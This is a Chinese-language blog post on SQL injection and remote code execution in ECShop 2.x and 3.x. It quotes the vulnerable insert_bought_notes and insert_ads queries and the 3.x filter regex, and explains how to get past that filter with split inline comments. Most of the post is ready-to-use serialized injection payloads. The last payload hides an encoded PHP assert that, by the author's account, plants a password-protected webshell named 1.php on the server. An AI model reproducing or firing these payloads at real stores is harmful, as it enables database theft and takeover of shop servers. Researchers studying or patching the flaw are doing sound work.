 ```yaml
---
id: 5000
title: ecshop 2.x 3.x SQL injection/RCE payload
date: 2018-09-07T11:32:57+00:00
author: admin
layout: post
guid: http://www.ikow.cn/?p=5000
permalink: /ecshop-payload/
categories:
  - web
tags:
  - ecshop
  - sql injection
  - rce
  - payload
---
```

首先，感谢ringk3y的分析：http://ringk3y.com/2018/08/31/ecshop2-x%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/ 大家跟一遍代码基本上都能弄明白漏洞的原理，整个漏洞的构造还是很有意思的

然后网上公开的基本上都是2.x版本的payload，对于sql injection，除了文中提到的insert_ads，insert_bought_notes函数同样存在漏洞：
'''
    $sql = 'SELECT u.user_name, og.goods_number, oi.add_time, IF(oi.order_status IN (2, 3, 4), 0, 1) AS order_status ' .
           'FROM ' . $GLOBALS['ecs']->table('order_info') . ' AS oi LEFT JOIN ' . $GLOBALS['ecs']->table('users') . ' AS u ON oi.user_id = u.user_id, ' . $GLOBALS['ecs']->table('order_goods') . ' AS og ' .
           'WHERE oi.order_id = og.order_id AND ' . time() . ' - oi.add_time < 2592000 AND og.goods_id = ' . $arr['id'] . ' ORDER BY oi.add_time DESC LIMIT 5';
'''
注入点为id，这样我们构造payload可以为
'''
554fcae493e564ee0dc75bdf2ebf94cabought_notes|a:2:{s:3:"num";i:1;s:2:"id";s:70:"1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";}
'''

对于3.x版本的注入，唯一和2.x的区别在于$_echash的值变成了45ea207d7a2b68c49582d2d22adf953a，我们直接替换原来payload中的值即可：
'''
45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:72:"0,1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";s:2:"id";i:1;}
'''
或者
'''
bought_notes|a:2:{s:3:"num";i:1;s:2:"id";s:70:"1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";}
'''

对于3.x版本的rce或者是你想要读取数据库里面的信息，我们需要绕过3.x中的过滤（代码在safety.php中)，
先看下3.x中的过滤：
'''
'sql'=>"[^\\{\\s]{1}(\\s|\\b)+(?:select\\b|update\\b|insert(?:(\\/\\*.*?\\*\\/)|(\\s)|(\\+))+into\\b).+?(?:from\\b|set\\b)|[^\\{\\s]{1}(\\s|\\b)+(?:create|delete|drop|truncate|rename|desc)(?:(\\/\\*.*?\\*\\/)|(\\s)|(\\+))+(?:table\\b|from\\b|database\\b)|into(?:(\\/\\*.*?\\*\\/)|\\s|\\+)+(?:dump|out)file\\b|\\bsleep\\([\\s]*[\\d]+[\\s]*\\)|benchmark\\(([^\\,]*)\\,([^\\,]*)\\)|(?:declare|set|select)\\b.*@|union\\b.*(?:select|all)\\b|(?:select|update|insert|create|delete|drop|grant|truncate|rename|exec|desc|from|table|database|set|where)\\b.*(charset|ascii|bin|char|uncompress|concat|concat_ws|conv|export_set|hex|instr|left|load_file|locate|mid|sub|substring|oct|reverse|right|unhex)\\(|(?:master\\.\\.sysdatabases|msysaccessobjects|msysqueries|sysmodules|mysql\\.db|sys\\.database_name|information_schema\\.|sysobjects|sp_makewebtask|xp_cmdshell|sp_oamethod|sp_addextendedproc|sp_oacreate|xp_regread|sys\\.dbms_export_extension)"
'''
基本上想从数据库中通过select查询获取数据是不可能的（欢迎大家提供绕过的思路）
但是insert_ads的sql语句给我们绕过全局过滤带来了方便：
'''
$sql  = 'SELECT a.ad_id, a.position_id, a.media_type, a.ad_link, a.ad_code, a.ad_name, p.ad_width, ' .
                    'p.ad_height, p.position_style, RAND() AS rnd ' .
                'FROM ' . $GLOBALS['ecs']->table('ad') . ' AS a '.
                'LEFT JOIN ' . $GLOBALS['ecs']->table('ad_position') . ' AS p ON a.position_id = p.position_id ' .
                "WHERE enabled = 1 AND start_time <= '" . $time . "' AND end_time >= '" . $time . "' ".
                    "AND a.position_id = '" . $arr['id'] . "' " .
                'ORDER BY rnd LIMIT ' . $arr['num'];
'''
因为可以注入的地方有两处，分别是id和num，这时我们利用inline comment来同时构造payload，id的地方注入'union/*，num的地方注入*/select+....
关于如何使用comment来帮助我们的注入语句，可以参考：http://www.sqlinjection.net/comments/
然后拦截的正则规则中并没有单独拦截union，select，这样我们2.x的payload稍微改造下就又能使用了：
'''
45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:273:"*/select 1,0x27756e696f6e2f2a,3,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152626132393358536b2f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:8:"'union/*";}[/code]
'''
执行完之后会在user.php同目录下生成1.php的菜刀马，密码是kow

